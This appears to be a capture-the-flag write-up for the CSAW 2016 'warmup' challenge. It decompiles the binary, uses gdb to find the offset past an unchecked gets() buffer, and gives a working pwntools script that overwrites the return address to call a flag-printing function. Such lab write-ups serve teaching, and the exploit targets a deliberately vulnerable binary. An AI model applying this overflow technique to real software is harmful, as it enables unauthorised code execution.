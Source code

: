 # Csaw 2016 Quals Warmup
Let's take a look at the binary
```bash
$    file warmup
warmup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.24, BuildID[sha1]=ab209f3b8a3c2902e1a2ecd5bb06e258b45605a4, not stripped
$    ./warmup
-Warm Up-
WOW:0x40060d
>15935728
```

We see that we are dealing with a 64-bit binary. When we run it, is display an address (looks like an address from the code section of the binary, versus another section like the libc) and prompts us to input.
Looking at the main function in Ghidra, we got:
```c
void main(void)

{
  char easyFunctionAddress [64];
  char input [64];
 
  write(1,"-Warm Up-\n",10);
  write(1,&DAT_0040074c,4);
  sprintf(easyFunctionAddress,"%p\n",easy);
  write(1,easyFunctionAddress,9);
  write(1,&DAT_00400755,1);
  gets(input);
  return;
}
```

So we can see that the address being printed is the address of the function `easy`(which when we looking in Ghidra is `0x40060d`)
After that, it calls the function `gets` which is a bug since it doesn't limit how much data it scans in (and since input can only hold 64 bytes of data, after we write 64 bytes we overflow the buffer and start overwriting other things in memory).
With that bug we can totally reach the return address (the address on the stack that is executed after the ret call to return execution back to whatever code called it). For what to call, we see that the easy function will print the flag for us (in order to print the flag, we will need to have a flag.txt file in the same directory as the executable):
```c
void easy(void)

{
  system("cat flag.txt");
  return;
}
```
so let's use gdb to figure out how much data we need to send before overwritting the return address, so we can land the bug.
I will just set a breakpoint after the `gets` call.
```bash
gef➤  disas main
Dump of assembler code for function main:
   0x000000000040061d <+0>:    push   rbp
   0x000000000040061e <+1>:    mov    rbp,rsp
   0x0000000000400621 <+4>:    add    rsp,0xffffffffffffff80
   0x0000000000400625 <+8>:    mov    edx,0xa
   0x000000000040062a <+13>:    mov    esi,0x400741
   0x000000000040062f <+18>:    mov    edi,0x1
   0x0000000000400634 <+23>:    call   0x4004c0 <write@plt>
   0x0000000000400639 <+28>:    mov    edx,0x4
   0x000000000040063e <+33>:    mov    esi,0x40074c
   0x0000000000400643 <+38>:    mov    edi,0x1
   0x0000000000400648 <+43>:    call   0x4004c0 <write@plt>
   0x000000000040064d <+48>:    lea    rax,[rbp-0x80]
   0x0000000000400651 <+52>:    mov    edx,0x40060d
   0x0000000000400656 <+57>:    mov    esi,0x400751
   0x000000000040065b <+62>:    mov    rdi,rax
   0x000000000040065e <+65>:    mov    eax,0x0
   0x0000000000400663 <+70>:    call   0x400510 <sprintf@plt>
   0x0000000000400668 <+75>:    lea    rax,[rbp-0x80]
   0x000000000040066c <+79>:    mov    edx,0x9
   0x0000000000400671 <+84>:    mov    rsi,rax
   0x0000000000400674 <+87>:    mov    edi,0x1
   0x0000000000400679 <+92>:    call   0x4004c0 <write@plt>
   0x000000000040067e <+97>:    mov    edx,0x1
   0x0000000000400683 <+102>:    mov    esi,0x400755
   0x0000000000400688 <+107>:    mov    edi,0x1
   0x000000000040068d <+112>:    call   0x4004c0 <write@plt>
   0x0000000000400692 <+117>:    lea    rax,[rbp-0x40]
   0x0000000000400696 <+121>:    mov    rdi,rax
   0x0000000000400699 <+124>:    mov    eax,0x0
   0x000000000040069e <+129>:    call   0x400500 <gets@plt>
   0x00000000004006a3 <+134>:    leave  
   0x00000000004006a4 <+135>:    ret    
End of assembler dump.
gef➤  b *main+134
Breakpoint 1 at 0x4006a3
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/csaw16_warmup/warmup
-Warm Up-
WOW:0x40060d
>15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffde50  →  "15935728"
$rbx   : 0x0               
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffde10  →  "0x40060d"
$rbp   : 0x00007fffffffde90  →  0x00000000004006b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x35333935        
$rdi   : 0x00007fffffffde51  →  0x0038323735333935 ("5935728"?)
$rip   : 0x00000000004006a3  →  <main+134> leave
$r8    : 0x0000000000602269  →  0x0000000000000000
$r9    : 0x00007ffff7fda4c0  →  0x00007ffff7fda4c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf70  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffde10│+0x0000: "0x40060d"     ← $rsp
0x00007fffffffde18│+0x0008: 0x000000000000000a
0x00007fffffffde20│+0x0010: 0x0000000000000000
0x00007fffffffde28│+0x0018: 0x0000000000000000
0x00007fffffffde30│+0x0020: 0x0000000000000000
0x00007fffffffde38│+0x0028: 0x0000000000000000
0x00007fffffffde40│+0x0030: 0x0000000000000000
0x00007fffffffde48│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400694 <main+119>       rex.RB ror BYTE PTR [r8-0x77], 0xc7
     0x400699 <main+124>       mov    eax, 0x0
     0x40069e <main+129>       call   0x400500 <gets@plt>
 →   0x4006a3 <main+134>       leave  
     0x4006a4 <main+135>       ret    
     0x4006a5                  nop    WORD PTR cs:[rax+rax*1+0x0]
     0x4006af                  nop    
     0x4006b0 <__libc_csu_init+0> push   r15
     0x4006b2 <__libc_csu_init+2> mov    r15d, edi
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "warmup", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a3 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a3 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602260 - 0x602268  →   "15935728"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde50 - 0x7fffffffde58  →   "15935728"
gef➤  i f
Stack level 0, frame at 0x7fffffffdea0:
 rip = 0x4006a3 in main; saved rip = 0x7ffff7a05b97
 Arglist at 0x7fffffffde90, args:
 Locals at 0x7fffffffde90, Previous frame's sp is 0x7fffffffdea0
 Saved registers:
  rbp at 0x7fffffffde90, rip at 0x7fffffffde98
```
We see that the $rip is at `0x7fffffffde98` and pattern `15935728` is at  `0x7fffffffde50` so
using a bit math, we got the offset
```bash
>>> hex(0x7fffffffde98 - 0x7fffffffde50)
'0x48'
```
So we can see that after 0x48 bytes of input, we start overwriting the return address. With all of this, we can write the exploit
```py
from pwn import *

target = process('./warmup')
#gdb.attach(target, gdbscript = 'b *0x4006a3')

# Make the payload
payload = ""
payload += "0"*0x48 # Overflow the buffer up to the return address
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()
```

and the result:
```bash
$    python exploit.py
[+] Starting local process './warmup': pid 4652
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>flag{g0ttem_b0yz}
[*] Got EOF while reading in interactive
```